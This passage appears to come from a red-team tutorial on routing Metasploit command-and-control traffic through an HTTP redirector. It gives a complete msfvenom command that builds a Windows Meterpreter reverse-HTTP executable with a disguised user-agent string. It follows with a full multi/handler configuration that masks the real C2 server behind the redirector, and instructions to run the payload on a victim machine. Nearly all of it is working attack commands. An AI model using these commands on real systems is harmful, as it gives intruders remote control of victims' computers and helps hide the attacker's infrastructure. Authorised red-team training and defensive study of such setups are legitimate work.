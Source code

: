
### **3. Generating a Customized Payload with MSFvenom**

To simulate HTTP traffic that matches your redirector’s configuration, create a Meterpreter reverse shell payload with a custom user-agent string.

1. **Generate the Payload**:
   ```bash
   root@kali$ msfvenom -p windows/meterpreter/reverse_http LHOST=tun0 LPORT=80 HttpUserAgent=NotMeterpreter -f exe -o shell.exe
   ```
   - **LHOST** and **LPORT**: Set these to the IP and port the C2 server listens on.
   - **HttpUserAgent**: Sets the user-agent to "NotMeterpreter" to match the rewrite rule on the redirector.

2. **Transfer and Execute Payload on the Target**: 
   - After transferring the payload to the victim, execute it. The payload should send HTTP requests that are filtered and forwarded by the redirector based on the custom user-agent header.

---

### **4. Setting Up Metasploit Handler with Redirector Configuration**

In Metasploit, configure the listener to expect connections coming through the redirector.

1. **Start Metasploit Console**:
   ```bash
   root@kali$ msfconsole
   ```

2. **Configure the Multi/Handler**:
   ```plaintext
   msf6 > use exploit/multi/handler 
   msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
   msf6 exploit(multi/handler) > set LHOST 127.0.0.1
   msf6 exploit(multi/handler) > set LPORT 8080
   msf6 exploit(multi/handler) > set ReverseListenerBindAddress 127.0.0.1
   msf6 exploit(multi/handler) > set ReverseListenerBindPort 8080
   msf6 exploit(multi/handler) > set OverrideLHOST 192.168.0.44
   msf6 exploit(multi/handler) > set OverrideLPORT 80
   msf6 exploit(multi/handler) > set HttpUserAgent NotMeterpreter
   msf6 exploit(multi/handler) > set OverrideRequestHost true
   msf6 exploit(multi/handler) > run
   ```
   - **OverrideLHOST** and **OverrideLPORT**: Point to the redirector’s IP and port (where the victim connects).
   - **OverrideRequestHost**: Ensures that Metasploit uses the redirector as the apparent destination, masking the true C2 server.

3. **Monitor the Metasploit Console**:
   - If the configuration is correct, you’ll see a Meterpreter session open as the victim machine connects via the redirector.

---
